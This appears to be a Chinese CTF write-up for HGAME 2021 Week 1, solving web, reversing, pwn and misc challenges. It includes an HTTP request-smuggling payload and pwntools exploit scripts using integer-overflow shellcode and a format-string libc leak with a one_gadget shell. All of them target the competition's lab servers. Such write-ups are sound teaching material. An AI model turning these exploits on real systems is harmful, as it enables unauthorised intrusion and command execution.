

# HGAME 2021 Week 1 Writeup

头一次正式参加CTF

## Web

第一周的题目目前看上去还好，HTTP请求走私是新学到的

有些过程实在很难回忆起来了

### Hitchhiking_in_the_Galaxy

点开题目页面，看到[我要搭顺风车](http://hitchhiker42.0727.site:42420/HitchhikerGuide.php)点进去发现没反应，浏览器一看302，那果断Postman请求或者Fiddler抓包走起

方便起见，这里用Postman，注意，需要把`Settings`选项卡下的`Automaticially follow redirects` 关了，不跟进302跳转

回显`405 Method Not Allowed`

```html
<html>

<head>
	<title>405 Method Not Allowed</title>
</head>

<body bgcolor="white">
	<center>
		<h1>405 Not Allowed</h1>
		<p>顺风车不是这么搭的</p>
	</center>
	<hr>
	<center>nginx/1.14.0 (Ubuntu)</center>
</body>

</html>
```

猜想使用POST，返回

```
只有使用"无限非概率引擎"(Infinite Improbability Drive)才能访问这里～
```

然后就stuck了，甚至百度了下这个`无限非概率引擎`，后来突然想到是不是可以改UA，将UA改成`Infinite Improbability Drive`

POST提交

```html
你知道吗？<a href="https://github.com/wuhan005">茄子</a>特别要求：你得从他的<a href="https://cardinal.ink/">Cardinal</a>过来
```

尝试添加Referer头`Referer: https://cardinal.ink/`，POST提交

```
flag仅能通过本地访问获得
```

然后甚至想到了SSRF，week1就上SSRF，我打的怕是HCTF？

后来想着要不加`X-Forwarded-For`头试一下（其实是有合理原因的，因为返回`405`的那个地方提示存在`nginx`反代）

直接拿到flag`hgame{s3Cret_0f_HitCHhiking_in_the_GAl@xy_i5_dOnT_p@nic!}`

### watermelon

托司机的大西瓜，u1s1，这游戏挺好玩的

PC上显示直接不全，没有那个`到2000分拿flag`的hint，一开始我以为分数直接就是写在DOM里的，后来发现Cocos引擎直接在Canvas上画东西，前端一窍不通，没了解过，不知道该在哪下断，甚至开始觉得考察的是Cocos游戏的引擎的bug，我打的怕是HCTF？

这题学到Cocos引擎的前端主要业务代码在`project.js`里

这种题预期解应该是改分数，随便玩了几下，没发现有发什么请求，猜测分数是存本地的

当时我简单看了下，在游戏开始加载`MainJS`时下断改`GameConfig.gameScore`无效，直接stuck

搜索`gameScore`这个字符串，一个个跟进，发现有一个地方很可疑，在`project.js`的`2087-2092`行

```javascript
 gameOverShowText: function (e, t) {
                    if(e > 1999){
                        alert(window.atob("aGdhbWV7ZG9feW91X2tub3dfY29jb3NfZ2FtZT99"))
                    }
                    // this.ajaxLoad("http://www.wesane.com/admin.php/Gamescore/saveGamescore", "gameScore=" + e + "&gameId=" + this.gameHttpId + "&gameType=" + t, this.scoreResult)
                }
```

判断得分`e`是否大于1999，如果大于就弹个框，`window.atob`函数是base64 decode，得到flag`hgame{do_you_know_cocos_game?}`

写wp时想到或许可以通过js的反射进作用域或者暴露一个`GameConfig`的引用，但不知道js的`=`是不是引用传递

还好`gameScore`没被字符串加密，混淆或者JSFuck之类的，要不然这题估计没戏，我的静态分析能力实在是有待提高，这题基本是碰巧做出来的

### 宝藏走私者 走私者的愤怒

这题估计师傅们一看就知道是`HTTP请求走私`，因为题目标题，ATS服务器，和DOM中的CDN

```html
<head>
	<title>SECRET-SERVER</title>
	<meta name="viewport" content="width=device-width, initial-scale=1.0">
	<link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/css/bootstrap.min.css" rel="stylesheet">
	<!--[if lt IE 9]>
    <script src="https://oss.maxcdn.com/libs/html5shiv/3.7.0/html5shiv.js"></script>
    <script src="https://oss.maxcdn.com/libs/respond.js/1.3.0/respond.min.js"></script>
    <![endif]-->
</head>
```

后面想基本上已经算是明示了

但是拿到这个题的时候没听说过这个技巧，于是开始看请求

浏览器访问`/secret`返回了这个

```
ONLY LOCALHOST(127.0.0.1) CAN ACCESS THE SECRET_DATA!
YOUR Client-IP(Client-IP NOT FOUND IN HEADERS!) IS NOT ALLOWED!
```

尝试Postman请求加个`Client-IP`头

```
ONLY LOCALHOST(127.0.0.1) CAN ACCESS THE SECRET_DATA!<br>YOUR Client-IP([CURRENT IP]) IS NOT ALLOWED!
```

发现并没有什么用，于是开始想是不是考察服务器本身的问题，因为返回头里有一个之前没见过的`Server: ATS/7.1.2`

于是百度，偶然发现一篇D3CTF的wp里提到了这个服务有HTTP请求走私的问题，再一看题目标题，答案就已经很显然了（此处自行脑补高考出场接受采访表情包，虽然我跟别人差远了）

简单来说就是反代和后端服务器处理请求的方式不同，而HTTP协议的解析依赖换行`\r\n`，导致原本请求的Body被当成了请求头

具体的东西我其实也没完全搞明白，根据[协议层的攻击：HTTP请求走私](https://blog.csdn.net/weixin_44058342/article/details/102503140)这篇文章，这题是`CL-TE`的情况

这种情况的利用要求不正确的`Content-Length`，Postman已经不够用了，祭出许久没用的Burp，抓包后丢进Repeater里修改

这里有坑，Burp默认也会帮你计算`Content-Length`，需要手动取消勾选菜单栏的`Repeater`->`Update Content-Length`项

payload里的host甚至都是原题，当时懒得改

```
GET /secret HTTP/1.1
Host: 024ac2afef.showhub.d3ctf.io
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.100 Safari/537.36
DNT: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: zh,en;q=0.9,zh-CN;q=0.8
Cookie: PHPSESSID=cgdbdc2211g074rnbklem2fv5k
Content-Length: 282
Transfer-Encoding: chunked

0


POST /secret HTTP/1.1
Host: 024ac2afef.showhub.d3ctf.io
Client-IP: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=cgdbdc2211g074rnbklem2fv5k
Content-Length: 30

cmd=cat /flag;
```

注意，`chunked`模式要求一个`chunk`的结束要用`\r\n\r\n0\r\n\r\n`来标识，这是一个坑，建议打开Burp的`\n`按钮确认一下

最后快速点击**两次**Send，发送请求，得到flag

```html
WELCOME LOCALHOST. HERE IS THE SECRET:<br>hgame{Fe3l^tHe~4N9eR+oF_5mu9gl3r!!}
```

后面Liki姐姐更新的题目`走私者的愤怒`也是同样的考点，payload甚至都通用

后来又看到一篇文章，HTTP协议的解析依赖换行`\r\n`这个细节还引出了另一个技巧，说反弹xss的时候也可以根据`\r\n`来截断请求头，从而避免了不可控的跳转，或者加入自己想要的请求头比如CSP策略等等，最后直接加两个`\r\n`让后面的内容均被解析成Body

### 智商检测鸡

一开始以为跟`watermelon`那道题差不多，因为看到了`fuckmath.js`里

```javascript
function getFlag(){
    $.ajax({
        type: "GET",
        url: "/api/getFlag",
        dataType: "json",
        success:function(data){
            $('#flag').html(data['flag']);
        }
    });
}
```

直接访问，然后反手就被嘲讽了

```json
{"flag":"\u9898\u90fd\u505a\u4e0d\u5b8c\u8fd8\u60f3\u8981Flag?\u5927\u5b66\u751f\u5c31\u8fd9\u5c31\u8fd9\u5c31\u8fd9\u5c31\u8fd9\uff1f"}
```

Unicode解码得到`题都做不完还想要Flag?大学生就这就这就这就这？`，意识到后端有判断，只能先尝试做题了

考察的是经典爬虫题

但是问题来了，外院学生不学高数，我连这种最简单`ax+b`的定积分都不会算

百度了一圈发现`scipy`这个python库提供了这个功能，无奈只能抛弃用了很久的`gorequest`，改用弱类型语言（弱类型语言类型坑真的多）

```python
def func(x):
    return a*x+b #直接写表达式，直观
result, err = integrate.quad(func, down, up)
```

python我只停留在调调库的阶段，所以并不会写闭包，bs4也是对着文档整的，没有`goquery`用的方便

常数`a,b`以及上下界`down`和`up`都是全局变量，写的很丑

```python
import math
import requests
import json
from bs4 import BeautifulSoup
from scipy import integrate
a=12
b=17
down=-92
up=31
def get_question(sess) -> (float,float,float,float):
    resp = sess.get('http://r4u.top:5000/api/getQuestion')
    qus_html= resp.json()['question']
    bs=BeautifulSoup(markup=qus_html,features='lxml')
    root_mrow=bs.math.mrow
    down_up_bs= root_mrow.msubsup.find_all(name='mrow')
    down_up=[] #上下界
    for item_bs in down_up_bs:
        sign = item_bs.find('mo')
        if sign is not None:
            sign=sign.string
        else:
            sign=""
        val=str.format("{}{}",sign,item_bs.mn.string)
        print(val)
        down_up.append(float(val))
    print(down_up)
    down=down_up[0]
    up=down_up[1]
    a_b_bs = root_mrow.find_all(name='mn',recursive=False)
    a_b = []  # 常数a b
    for item_bs in a_b_bs:
        a_b.append(float(item_bs.string))
    print(a_b)
    a=a_b[0]
    b=a_b[1]
    return down,up,a,b

def func(x):
    #print("x=",x)       #用于展示quad()函数对func的多次调用
    return a*x+b


sess= requests.session()
sess.proxies={'http': 'http://127.0.0.1:8080'}
for i in range(1,101):

    down, up, a, b = get_question(sess)
    resp = sess.get('http://r4u.top:5000/api/getStatus')
    print(i,"status:",resp.content)
    result, err = integrate.quad(func, down, up)
    print(down,up,a,b,"->",result)
    quad_result_dic = {
        'answer': format(result,'.2f'),
    }
    json_str = json.dumps(quad_result_dic)
    ret_json = sess.post('http://r4u.top:5000/api/verify',
                         headers={'Content-Type': "application/json"},
                         data=json_str).json()
    print(ret_json)
    if not ret_json['result']:
        print(i,"error",ret_json)
        break
    pass

resp=sess.get('http://r4u.top:5000/api/getFlag')
print(resp.cookies)
print(resp.content)
```

这里手动解析html会保险一些，因为上回李哥出了道`eval()`函数造成的关机题，真实环境甚至有可能被SQL注入或者直接nc弹shell，清数据，取证之后律师函直接面向监狱编程

后来`biubiubiu`学长提供了个更好的库`sympy`，能更直观的支持多个未知量的情况

回想了下自己高考拿微积分基本定理跟别人现的黑历史，发现`ax+b`的积分形式不就是`(a/2)x^2+bx`嘛，还是可以用go实现的

## Re

前面提到了，静态分析是我的弱项，很多技巧都比较局限，一旦题目复杂了或者反调一多我只能GG

感谢`r3n0`和`mezone`学长

### apacha

这个题目一开始没去碰，因为底下有个`helloRe`，看标题觉得比较简单（不要学，`easyRE`这种标题的题目通常都是比较难的）

后来直接上了`findcrypt`这个插件，插件在[github](https://github.com/polymorf/findcrypt-yara)上，这个插件是`mezone`学长介绍给我用的，给了我这种不了解算法的解简单题的可能，感谢

clone下来之后把`findcrypt3.py`和对应的`findcrypt3.rules`丢进`IDA安装目录/plugins`文件夹里

一下就识别出在函数`sub_1447`中有TEA算法



我一开始没直接跟进`sub_1447`函数，而是去看后面的部分，`main`函数最后调用了`sub_1550`判断加密后的flag与密文是否相等

这里IDA对密文数组的识别因为有一个开头DWORD比较出了点问题，并不是很直观

```c
__int64 __fastcall sub_1550(_DWORD *a1, int a2)
{
  __int64 v2; // rax
  int v3; // edx

  if ( a2 <= 0 )
    return 1LL;
  if ( *a1 != dword_5020 ) //如果开头4个字节不相等，就直接退出比较
    return 0LL;
  v2 = 4LL; //跳过unk_501C开头的4个字节0x00
  while ( v2 != 4LL * (unsigned int)(a2 - 1) + 4 )
  {
    v3 = a1[(unsigned __int64)v2 / 4];
    v2 += 4LL; //逐4字节比较
    if ( v3 != *(_DWORD *)((char *)&unk_501C + v2) )
      return 0LL;
  }
  return 1LL;
}
```

实际上`0x501c+0x4=0x5020`，所以从`0x5020`到`0x50ab`这140长度的内容都是密文

打开IDA View，用`Array`将这些数据认为是数组


我直接dump成一个txt，长度140，刚好符合

```
23 B3 4E E7 36 28 A7 B7 E2 6F CA 59 C1 C5 7C 96
74 26 80 E7 E6 54 2D 3D 56 03 9D 8A 9C C3 DC 99
ED D8 26 70 AD FD 33 6A 0A 55 96 F4 9E 6F 9C 5C
4C D0 E5 1B 17 AE 23 67 C2 A5 70 52 0A 13 42 AC
B2 67 BE 84 79 C7 5C 70 98 3D 51 5C 2D DA 36 FB
45 96 17 22 9D 52 E3 5C FB E1 89 D1 89 D4 5B E8
1F D1 C8 73 96 C1 B5 54 90 B4 7C B6 CA E4 17 21
94 F9 E3 9D AA A1 5A 2F FD 01 E8 A7 AB 6E 0D C3
9C DC AD 1B 4A B0 53 34 F9 06 A4 92
```

然后回到`sub_1447`函数，TEA一般有这么几个特征：一个循环，特定的`DELTA=0x9E3779B9`（变形`0x61C88647`）然后循环中间两个看上去很长的位运算

但是`sub_1447`函数显然不符合，有两个循环，然后又看到一个常数`0x4AB325AA`和一些`52`相关的除法运算

根据网上资料[TEA系列加解密算法详解](https://blog.csdn.net/makercloud/article/details/107454777)猜测是`XXTEA`

拿C复制网上的解密函数，直接乱码，开始和`r3n0`学长进行交 流

确认了这是标准的`XXTEA`后直接stuck，还是`r3n0`学长提醒我注意这个比较函数，这里涉及到字节序的问题，linux编译的ELF是`little`的，简单讲就是和你的直觉反着来，也让我发现了我对`_DWORD`的定义有问题，长度应该是**4个字节**而不是8个

理了一遍程序逻辑

1. 输入flag

2. 每隔4个字节填充一个原文

```c
v3 = malloc(140uLL);
  for ( i = 0LL; i != 35; ++i )
    v3[i] = v7[i];
```

3. 丢进xxtea，密钥{1,2,3,4}，`little`编码

4. 和密文逐4个字节比较

后来放弃了C的脚本，直接转python，`xxtea`库一把梭

```python
import os
import binascii
import xxtea
key_data=b''
for i in range(1,5):
    key_data += int.to_bytes(i, 4, byteorder='little', signed=False)

hex_str= open('tea_result','r').read()
hex_str=hex_str.replace("\n" ," ")
hex_str=hex_str.replace("\r","")
bits=hex_str.split(" ")
s=""
for bit in bits:
    s+="0x"+bit+","
hex_str=hex_str.replace(" ","")
data=bytes.fromhex(hex_str)
de= xxtea.decrypt(data,key_data,padding=False)
print(de)
```

解密出来因为有填充，会带一堆`\x00`，直接替换，得到flag`hgame{l00ks_1ike_y0u_f0Und_th3_t34}`

有的时候真的挺佩服那些算法好的不用findcrypt也能做题，甚至能直接手写逆向算法，tql

### helloRe

`mezone`学长的题，这题估计用的是非预期解，直接patch了`do{}while`循环里的`jnz`指令->`jz`指令，这样异或按位与密文比较的错误时候就不会退出，直接IDA动态调试，再一次暴露我的静态分析能力，里面一些跟时间相关的函数根本看不懂

上来开IDA，一开始没发现什么，findcrypt也没发现什么，看了下main函数里面有个循环

```c
do
  {
    v10 = Block;
    if ( v8 >= 0x10 )
      v10 = v9;
    if ( (*((_BYTE *)v10 + v3) ^ (unsigned __int8)sub_140001430()) != byte_140003480[v3] )
      goto LABEL_13;
    ++v3;
  }
  while ( v3 < 22 );
```

发现是经典异或，密文在`byte_140003480`里

```
97 99 9C 91 9E 81 91 9D  9B 9A 9A AB 81 97 AE 80 83 8F 94 89 99 97 00 00
```

这个密文实际只有22位，IDA的数组识别日常出问题

key通过`sub_140001430`得到，但是这个函数里调用的`sub_140001290`里面一堆时间相关的API

一想哦豁完蛋，时间反调？还是那种不影响程序本身运行只影响结果的那种，我打的怕是HCTF？

后来抱着随便试试看的心态调了一波，因为IDA还原的C代码get key和比较都在一行里，无奈打开汇编下断


这是个64位程序，根据`fastcall`调用约定，`sub_140001430`的返回值，也就是这一位的key会被存在RAX寄存器里，我们动态调试一波

顺便，**IDA7.5泄露版本的动态调试有坑**，不仅key是错的，而且还闪退，建议静态分析用7.5，windows调试还是用IDA7.0或者别的更靠谱的

图里是已经patch过的版本


发现第一位的key（图里RAX寄存器的值）不论我在断点处停多久，都是`0xff`，那没事了

但是又有一个问题，flag第一位不相等，程序直接走`sub_140001480`退出

突然想到可以通过改跳转指令，把jnz改成jz，让程序在cmp不为0时继续执行

但是查jnz的机器码很麻烦，百度日常返回一堆无关结果，想起之前玩unicorn的时候用的`capstone`汇编引擎，直接一把梭

```python
import keystone

engine=keystone.Ks(arch=keystone.KS_ARCH_X86,mode=keystone.KS_MODE_64)
enc,count=engine.asm('jz 1',addr=0x1234) #改jnz为jz，通过RAX读取每一位的预期值
res=list()
for bit in enc:
    res.append(hex(bit))
print(" ".join(res).replace("0x",""))
```

输出

```
f 84 c7 ed ff ff
```

在IDA的Hex View里比较原指令，把`85`改成`84`，保存到输入文件，完成patch，之后就是一路F9按下去

遇到非法HANDLE的信号的提示直接Yes即可

发现key是有规律的，从0xff递减，那直接C解密

```c
 BYTE enc[24] = { 0x97,0x99 ,0x9C ,0x91 ,0x9E ,0x81,0x91 ,0x9D  ,0x9B ,0x9A ,0x9A ,0xAB,0x81 ,0x97 ,0xAE ,0x80 ,0x83,0x8F ,0x94 ,0x89 ,0x99 ,0x97 ,0x00 ,0x00 };
    //0xff 0xfe ,0xfd ,0xfc, 0xfb, 0xfa, 0xf9,0xf8,0xf7,0xf6,0xf5,0xf4,0xf3,0xf2,0xf1,0xf0,0xef,0xee
    for (size_t i = 0;i < 24;i++) {
        BYTE key = 0xff - i;
        printf("%x\n", key);
        enc[i] = enc[i] ^ (0xff - i);
    }
    printf("%s\n", enc);
```

得到flag`hgame{hello_re_player}`

希望官方wp能解释下产生key的流程，根据时间产生也太秀了

### pypy

这道题没啥技巧，估计有方法把字节码重新编译回去，但是我看逻辑还不算很长就直接手逆，不能动调太难受了

参考资料：[[`dis`]Python 字节码反汇编器](https://docs.python.org/zh-cn/3/library/dis.html)，里面有字节码的作用解释，也包含了调用约定，注意python解释器的传参顺序是符合直觉的，和C调用约定不一样，是从左到右压栈，从左到右拿参数

感谢`r3n0`学长的帮助，帮我看出了异或循环里我把长度3看成i导致乱码的问题，要不然直接stuck

直接上逆出来的结果

```python
import dis

#重新拿回去验证
raw_flag= input("give me your flag")
cipher=list(raw_flag[slice(6,-1)]) #取得除了hgame{}之外的部分
print(cipher)
length=len(cipher)
print(length)
for i in range(length//2):
    cipher_ss1 = cipher[i*2+1]
    cipher_ss2 = cipher[i*2]
    cipher[i*2] = cipher_ss1
    cipher[i*2+1] = cipher_ss2 # 或 cipher[i2p1]=cipher_ss1
res=list()
for i in range(length):
    xor_bit=ord(cipher[i])^i
    res.append(hex(xor_bit))
re_flag="".join(res).replace("0x","")
if expected_flag==re_flag:
    print("equal")
```

逆向算法

```python
res=list()
expected_flag='30466633346f59213b4139794520572b45514d61583151576638643a'
flag_data= bytes.fromhex(expected_flag)
length=len(flag_data)
for i in range(length):
    bit=flag_data[i]
    xor_bit=bit^i
    res.append(chr(xor_bit))
    #print(chr(xor_bit))

print("".join(res))
for i in range(length//2):
    cipher_ss1 = res[i*2+1]
    cipher_ss2 = res[i*2]
    res[i*2] = cipher_ss1
    res[i*2+1] = cipher_ss2
print("raw flag:","".join(res))
```

输出`G00dj0&_H3r3-I$Y@Ur_$L@G!~!~`，因为前面程序通过`cipher=list(raw_flag[slice(6,-1)])`去掉了`hgame{}`头

所以提交的时候要加上，flag`hgame{G00dj0&_H3r3-I$Y@Ur_$L@G!~!~}`

## PWN

PWN很长一段时间里杂七杂八看的，基础比较差，很多概念不清楚，甚至连链表unlink都不太懂，为之后的堆开了个坏头

数据结构很重要，补码也是

感谢`xiaoyu`学长

### whitegive

白给题，一开始想着scanf栈溢出没跑了，后来checksec发现开了Canary，然后看了一眼printf函数没一个可控的，那估计不是堆溢出

关键点其实在这里，题目提示都给到脸上了，C的字符串比较不能用`==`，因为这样是地址比较

```c
if (num == "paSsw0rd") { //Do you know strcmp?
        printf("you are right!\n");
        system("/bin/sh");
    } else {
        printf("sorry, you are wrong.\n");
    }
```

所以利用思路就是让num的地址==字符串的地址，程序没开PIE，那么这个地址是固定的，IDA一开

```
.rodata:0000000000402012 aPassw0rd       db 'paSsw0rd',0 
```

那直接输入`0x402012`的十进制形式`4202514`就可以getshell，nc连接后直接`cat /flag`

得到flag`hgame{W3lCOme_t0_Hg4m3_2222Z222zO2l}`

### letter

这道题是后做的，先做的`once`，上来checksec，啥都没开，但是应用了`seccomp`

```c
__int64 init()
{
  __int64 v1; // [rsp+8h] [rbp-8h]

  setbuf(stdin, 0LL);
  setbuf(_bss_start, 0LL);
  setbuf(stderr, 0LL);
  v1 = seccomp_init(0LL);
  seccomp_rule_add(v1, 2147418112LL, 2LL, 0LL);
  seccomp_rule_add(v1, 2147418112LL, 0LL, 0LL);
  seccomp_rule_add(v1, 2147418112LL, 1LL, 0LL);
  seccomp_rule_add(v1, 2147418112LL, 60LL, 0LL);
  seccomp_rule_add(v1, 2147418112LL, 231LL, 0LL);
  seccomp_rule_add(v1, 2147418112LL, 0xFFFFD8B6LL, 0LL);
  return seccomp_load(v1);
}
```

seccomp策略的具体规则不太清楚，但第三个参数应该是系统调用号，第二个参数是政策，这里是白名单

开放了open，read以及write，但没开execve，应该不能常规弹shell了

gdb打开vmmap一下，栈和bss段都可执行，盲猜ret2shellcode

但是ret2shellcode需要知道栈地址（shellcode布置的地址），或者`jmp rsp`的gadget

而现代linux都开了aslr，栈地址是随机的，所以需要找一个jmp rsp，问题是这么小的程序里肯定是没有这样的指令的，libc基址也泄露不出来，当时直接stuck

后来一堆百度后看到一个叫bss段的东西，就是vmmap输出里一个ELF最后的那一段，全局变量存在这个段里


这个段不开PIE的时候地址是固定的，恰好，`length`这个全局变量就在这个段里，我们只要设法使length代表`jmp rsp`，然后覆盖返回地址到length的地址，直接就能让控制流跳到栈上执行shellcode

这里用pwntools提供的asm工具来获取jmp rsp的机器码

```python
from pwnlib import *
asm.context.arch='amd64'
asm.context.endian='little'
asm.asm('jmp rsp')
```

输出

```
b'\xff\xe4'
```

我这边的pwntools不能直接调用把这个转化成数值的`p64`函数，所以只能自己算补码

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[16]; // [rsp+0h] [rbp-10h] BYREF

  init_seccomp_whitelist();                     // init
  write(1, "In old days, the letter is asked to be short.\n", 0x2EuLL);
  write(1, "how much character do you want to send?\n", 0x28uLL);
  read(0, buf, 0x10uLL);
  LODWORD(length) = atoi(buf);
  if ( (int)length > 15 )
  {
    write(1, "sorry, too long.\n", 0x11uLL);
  }
  else
  {
    read(0, buf, (unsigned int)length); //无符号数-1是MAX(unsigned int)
    write(1, "hope the letter can be sent safely.\n", 0x24uLL);
  }
  return 0;
}
```

算补码的原因是要通过负数绕过`if ( (int)length > 15 )`的检查，然后下面把length当作无符号整数来作为读取输入的长度，经典考点了

补码符号位是高位，程序是`little`，所以我们需要让`length=0xffffe4ff`，输入就要是`-6913`

之后通过第二个read在栈上写入shellcode即可，shellcode我直接通过`shellcraft`构造，偏移通过`cyclic`找，不得不说没pwntools我做不了pwn

构造shellcode的脚本

```python
context.arch='amd64'
context.endian='little'
context.os='linux'
context.log_level='debug'
flag_length=0x47
payload=shellcraft.amd64.open('flag',0)
payload+=shellcraft.amd64.read(3,'rsp',flag_length)
payload+=shellcraft.amd64.write(1,'rsp',flag_length)
print(payload)
```

这个`flag_length`是一位一位加试出来的，把输出保存到同文件夹的shellcode_asm文件里

那接下来很简单，覆盖返回地址到length，之后写入shellcode，最终脚本如下

```python
from pwn import *
from pwnlib import *
context.arch='amd64'
context.endian='little'
context.os='linux'
context.log_level='debug'
# payload=shellcraft.amd64.open('flag',0)
# payload+=shellcraft.amd64.read(3,'rsp',0x200)
# payload+=shellcraft.amd64.write(1,'rsp',0x200)
asm.context.arch='amd64'
asm.context.endian='little'
asm.context.os='linux'
shellcode=asm.asm(open('shellcode_asm','r').read())
print("len:",len(shellcode))
print(cyclic_find('agaaahaa')) #37
p=process('./letter')
argv=list()
argv.append("nc")
argv.append("182.92.108.71")
argv.append("31305")
#p=remote(host='182.92.108.71',port=31305)
#p=process(argv=argv)
gdb.attach(p,'b *main+0x9c')
p.recvuntil('how much character do you want to send?\n')
l_length=0xffe4 #0x1c00
l_length=(-l_length)
p.send('-6913'+'a'*(0x10-5-2)+'\xff\xe4') #ffe4 jmp rsp
#p.sendline(cyclic(0x100))
#p.sendline(cyclic(0x100)) #36
# p.sendline()
leave_addr=0x60108c
leave_addr_data=int.to_bytes(leave_addr,6,byteorder='little',signed=False)
buf_addr=0x7fffffffdab0
buf_addr_data=int.to_bytes(buf_addr,12,byteorder='little',signed=False)
msg=b'b'*24+leave_addr_data+b'\x00'*2
#0x7fffffffdab0 buf for no aslr
p.send(msg)
#p.sendline(cyclic(0x100))
p.sendline(shellcode)
#0x400a36 leave
#p.sendline(asm(payload))
#0x7ffd014abbb0 0x7ffe80b42048
p.interactive()
```

一路n下来到read后，可以看见length已经可以被解析成jmp rsp了


脚本起nc连题目，拿到flag`hgame{400a48b3d1b03dc8b9947174a3255bbc2783494c97c90a2ad76c7ed22158048f}`

本地测试的时候，没有注意到`read`读取到预期长度前会阻塞，然后脚本在远程没回显，跟`xiaoyu`学长交 流后意识到这个问题，一位一位加flag长度，最终在0x47收到了完整的flag

### once

典型的泄露地址+覆盖返回地址+再来一次覆盖返回地址+ROP一条龙，题目标题提示的很明确了

这是我第一次完成一道栈溢出的pwn题

写到这里已经是2月5号的17:01了，感觉要赶不上ddl，所以直接放脚本

```python
from pwn import *
from pwnlib import *
import re

print(0x7ffcb30648b8/0x10)
print(0x707070707050/0x10)
context.endian='little'
print(cyclic(40))
print(cyclic_find('kaaalaaa')) #40 for ret addr start
print("rdi:",cyclic_find('iaaajaaa')) #32 for rdi start
# p= process('./once',env={
#     'LD_PRELOAD':"./libc-2.27.so"
# })
argv=list()
argv.append("nc")
argv.append("182.92.108.71")
argv.append("30107")
p=process(argv)
#gdb.attach(p,'b *vuln+47')
p.recvuntil('It is your turn: ')
#RDI  0x6161616a61616149 ('Iaaajaaa') stuck in printf second time
p.send('%p'*20+'\x6a'*1) #69 for main d2 for vuln d6
#p.p64(0x169)
#print('a'*32)
until= p.recvuntil('It is your turn: ')
print(until)
libc_start_main= '0xbf7'
for i in range(0,len(until)-1):
    prefix=until[i:i+2]
    if(b'0x'==prefix) is not True:
        continue
    address=until[i:i+len('0x560cfb338220')]
    print(i,address) #0x556b69e61220
    if str(address,encoding='utf-8').endswith('bf7'):
        print("found",address)
        libc_start_main= address[2:]
        #break
print("libc_start_main+231:", libc_start_main)
#libc=libc_start_main-0x21b10
libc_start_main=bytes.fromhex(str(libc_start_main, encoding='utf-8'))
libc= int.from_bytes(libc_start_main,byteorder='big',signed=False)-231-0x21b10
print("libc:",hex(libc))
one_gadget=libc+0x4f3e3
print("rbp:",cyclic_find('iaaajaaa'))
one_gadget_data= int.to_bytes(one_gadget,6,byteorder='little',signed=False)
#fmtstr_payload(29)
p.send('%x'*20)
p.send_raw(one_gadget_data)
#p.send(cyclic(0x100))
#p.send('%p'*20+'\x6a'*1)
#p.p64(one_gadget)
p.interactive()
```

直接对着脚本解释，题目开了PIE，但PIE不能随机化地址的最后三位，所以可以通过部分覆盖返回地址来回到main函数

```
p.send('%p'*20+'\x6a'*1) #69 for main d2 for vuln d6
```

不写入`\x69`回到main开始的地址是因为`push rbp`会让后面的`printf`检查内存对齐的时候失败

通过第一次写入20个`%p`到printf泄露`libc_start_main`的地址，减去偏移拿到libc基址，这里用了一个比较丑的筛选地址的循环，python实在不算是会写，顶多能用

然后第二次的返回地址写入one_gadget

```python
one_gadget=libc+0x4f3e3
print("rbp:",cyclic_find('iaaajaaa'))
one_gadget_data= int.to_bytes(one_gadget,6,byteorder='little',signed=False)
#fmtstr_payload(29)
p.send('%x'*20)
p.send_raw(one_gadget_data)
```

原本我用的one_gadget是在`0x4f432`

```
0x4f432 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL
```

但是限制条件`*(rsp+0x40)==NULL`不满足，直接stuck

在`xiaoyu`学长的提示下，了解到可以通过gadget地址之前的指令调整rbp指向的值，于是调整成`0x4f3e3`，getshell

开nc连接题目，执行`cat /flag`拿到flag`hgame{b73c0d87f1c49e4e4e0962dcddd8f38c95fc835a2b4b66243444505229119328}`

## MISC

### Base全家福

上来给密文`R1k0RE1OWldHRTNFSU5SVkc1QkRLTlpXR1VaVENOUlRHTVlETVJCV0dVMlVNTlpVR01ZREtSUlVIQTJET01aVUdSQ0RHTVpWSVlaVEVNWlFHTVpER01KWElRPT09PT09`

直接丢进CyberChef，魔法棒提示Base64->Base32->Hex，直接拿到flag`hgame{We1c0me_t0_HG4M3_2021}`

### 不起眼压缩包的养成的方法

嗯，虽然图感觉不是特别还原，但还是要吹我惠美如画中仙

看到标题直接把图片后缀改.zip，发现非法，又改成.rar，能打开了，后来学到能用binwalk直接一把梭识别出拼接的文件

但是有密码，压缩包提示

```
Password is picture ID (Up to 8 digits)
```

一开始直接爆破，无果，后来经提示通过pixiv识图搜到了这张图[加藤惠](https://www.pixiv.net/artworks/70415155)，第一层压缩包的密码就是`70415155`

解开得到第二层压缩包`plain.zip`，里面有个flag.zip和`NO PASSWORD.txt`，又直接stuck

后来又经提示，这两个压缩包里都有`NO PASSWORD.txt`这个文件，而且CRC32一样，可以用已知明文攻击，得到第二层密码`C8uvP$DP`

第三层压缩包`flag.zip`是伪加密，因为010Editor打开直接能看到flag

得到flag的hex形式

```
&#x68;&#x67;&#x61;&#x6D;&#x65;&#x7B;&#x32;&#x49;&#x50;&#x5F;&#x69;&#x73;&#x5F;&#x55;&#x73;&#x65;&#x66;&#x75;&#x31;&#x5F;&#x61;&#x6E;&#x64;&#x5F;&#x4D;&#x65;&#x39;&#x75;&#x6D;&#x69;&#x5F;&#x69;&#x35;&#x5F;&#x57;&#x30;&#x72;&#x31;&#x64;&#x7D
```

直接替换去掉`&#x`，hex decode得到flag`hgame{2IP_is_Usefu1_and_Me9umi_i5_W0r1d}`

### Galaxy

baby流量审计，直接wireshark打开应用过滤器`http`，得到http流量


直接dump出这个png

原本看这张图，最后一个IDAT块大小与之前的不同，dump出来之后发现有点像二维码但是只有中间一小块

画质不太好以为是位隐写，当场stuck

在问`Akira`学长后得到hint，宽高CRC，经典考点了，因为高比宽小，盲猜高不够，直接补成正方形

在图片底部得到flag`hgame{Wh4t_A_W0derful_Wallpaper}`

### Word RE:MASTER

